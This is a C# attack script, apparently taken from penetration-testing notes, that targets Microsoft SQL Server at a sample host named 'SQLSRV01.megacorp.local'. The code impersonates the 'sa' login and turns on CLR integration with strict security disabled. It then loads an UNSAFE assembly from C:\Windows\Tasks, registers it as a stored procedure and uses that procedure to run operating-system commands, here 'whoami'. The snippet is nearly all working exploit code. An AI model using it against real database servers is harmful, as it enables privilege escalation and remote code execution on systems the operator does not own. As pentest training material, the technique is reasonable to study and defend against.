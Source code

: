 ```csharp
            catch { }
            reader.Close();
            return result;
        }

        static void Main(string[] args)
        {
            // Authenticate
            string sqlServer = "SQLSRV01.megacorp.local";
            string database = "master";
            string conString = $"Server = {sqlServer}; Database = {database}; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);

            try
            {
                con.Open();
                Console.WriteLine("[+] Auth success!");
            }
            catch
            {
                Console.WriteLine("[-] Auth failed");
                Environment.Exit(0);
            }

            // Impersonate sa user
            sqlQuery("EXECUTE AS LOGIN = 'sa';", con);

            // Drop existing procedure and assembly
            sqlQuery(@"use msdb; DROP PROCEDURE IF EXISTS SqlCmdExec;", con);
            sqlQuery(@"use msdb; DROP ASSEMBLY IF EXISTS myAssembly1;", con);

            // Enable CLR integration
            sqlQuery("use msdb; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'clr enabled',1; RECONFIGURE; EXEC sp_configure 'clr strict security',0; RECONFIGURE;", con);
            Console.WriteLine("[+] Enabled CLR integration");
            // Create new assembly
            sqlQuery(@"CREATE ASSEMBLY myAssembly1 FROM 'C:\Windows\Tasks\SqlCmdExec.dll' WITH PERMISSION_SET = UNSAFE;", con);
            //sqlQuery(@"CREATE ASSEMBLY my_assembly FROM 0x31337... WITH PERMISSION_SET = UNSAFE;", con);
            Console.WriteLine("[+] Created new assembly");
            // Create new procedure
            sqlQuery(@"CREATE PROCEDURE [dbo].[SqlCmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly1].[StoredProcedures].[SqlCmdExec];", con);
            Console.WriteLine("[+] Created new procedure");
            // Trigger custom class for RCE
            string result = sqlQuery("EXEC SqlCmdExec 'whoami';", con);
            Console.WriteLine($"[*] SqlCmdExec: {result}");

            con.Close();
        }
    }
}
```
{% endcode %}
